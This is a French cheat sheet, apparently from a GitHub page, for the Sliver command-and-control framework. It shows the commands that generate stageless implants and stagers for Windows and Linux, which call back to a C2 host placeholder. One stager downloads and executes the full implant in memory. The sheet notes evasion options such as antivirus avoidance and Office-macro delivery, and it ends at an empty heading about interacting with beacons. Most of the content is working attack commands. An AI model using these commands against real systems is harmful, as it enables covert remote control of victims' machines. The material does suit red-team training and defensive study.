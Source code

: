 ### 🧬 **Génération d'Implants et Stagers**

* **Objectif :** Créer les exécutables (ou shellcode) à déployer sur les cibles.

#### Générer un implant complet (stageless)

```sliver
# Utilise le profil par défaut et se connecte au premier listener compatible (ex: mTLS)
generate --save /chemin/vers/implant_mtls

# Spécifier un protocole et un OS
generate --mtls <IP_C2>:<Port> --os windows --arch amd64 --format exe --save /chemin/vers/implant_win.exe
generate --http <IP_C2>:<Port> --os linux --arch amd64 --format elf --save /chemin/vers/implant_linux

# Options courantes :
# --os <windows|linux|macos> : Système d'exploitation cible
# --arch <amd64|386> : Architecture cible
# --format <exe|shared|service|shellcode> : Format de sortie
# --skip-symbols : Réduit la taille, peut aider à l'évasion
# --save <chemin> : Chemin où sauvegarder l'implant
```

* **Contexte :** Crée un implant autonome contenant toute la configuration nécessaire pour se connecter au C2.
* **Usage :** Déploiement direct sur la cible. Plus gros fichier, mais ne nécessite pas de seconde étape de téléchargement.

#### Générer un stager

```sliver
generate stager --lhost <IP_C2> --lport <Port_Listener> --protocol <http|https|mtls> --os windows --arch amd64 --format exe --save /chemin/vers/stager.exe
```

* **Contexte :** Crée un petit payload qui, une fois exécuté, contacte le listener spécifié pour télécharger et exécuter l'implant complet en mémoire.
* **Usage :** Utile pour réduire la taille du payload initial (évasion AV, limites de taille d'upload) ou pour des vecteurs d'accès comme les macros Office.
* **Options courantes :** Similaires à `generate`, plus `--lhost`, `--lport`, `--protocol` pour spécifier le listener de staging.

---

### 🎮 **Interaction avec les Implants**

#### Lister les Beacons et Sessions

```sliver
beacons    # Lister les implants en mode beacon (asynchrone)
sessions   # Lister les implants en mode session (interactif)
```

#### Passer en mode interactif avec un Beacon
